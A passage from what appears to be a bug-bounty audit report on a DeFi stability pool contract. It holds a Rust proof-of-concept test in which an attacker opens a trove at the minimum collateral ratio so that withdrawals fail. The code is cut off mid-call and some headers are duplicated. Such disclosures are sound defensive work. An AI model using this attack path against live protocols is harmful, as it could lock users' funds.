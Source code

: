 This vulnerability falls within the program's scope as it directly impacts fund accessibility and protocol stability, warranting a critical-severity classification.

## References

None

## Proof of Concept

## Proof of Concept

Add following test in `contracts/stability-pool-contract/tests/functions/failure.rs`

```
#[tokio::test]
#[tokio::test]
async fn fails_withdraw_underattack() {
    let (contracts, admin, mut wallets) = setup_protocol(4, false, false).await;

    oracle_abi::set_debug_timestamp(&contracts.asset_contracts[0].oracle, PYTH_TIMESTAMP).await;
    pyth_oracle_abi::update_price_feeds(
        &contracts.asset_contracts[0].mock_pyth_oracle,
        pyth_price_feed(1),
    )
    .await;

    // Admin opens a trove and deposits to stability pool
    borrow_operations_utils::mint_token_and_open_trove(
        admin.clone(),
        &contracts.asset_contracts[0],
        &contracts.borrow_operations,
        &contracts.usdf,
        &contracts.fpt_staking,
        &contracts.active_pool,
        &contracts.sorted_troves,
        6_000 * PRECISION,
        3_000 * PRECISION,
    )
    .await;

    let init_stability_deposit = 2_000 * PRECISION;
    stability_pool_abi::provide_to_stability_pool(
        &contracts.stability_pool,
        &contracts.community_issuance,
        &contracts.usdf,
        &contracts.asset_contracts[0].asset,
        init_stability_deposit,
    )
    .await
    .unwrap();

    let attacker_wallet = wallets.pop().unwrap();
    // Open one trove that icr = MCR
    borrow_operations_utils::mint_token_and_open_trove(
        attacker_wallet.clone(),
        &contracts.asset_contracts[0],
        &contracts.borrow_operations,
        &contracts.usdf,
        &contracts.fpt_staking,
        &contracts.active_pool,
        &contracts.sorted_troves,
        135675  * 10000000, // 1356.75
        100000  * 10000000, // 1000
```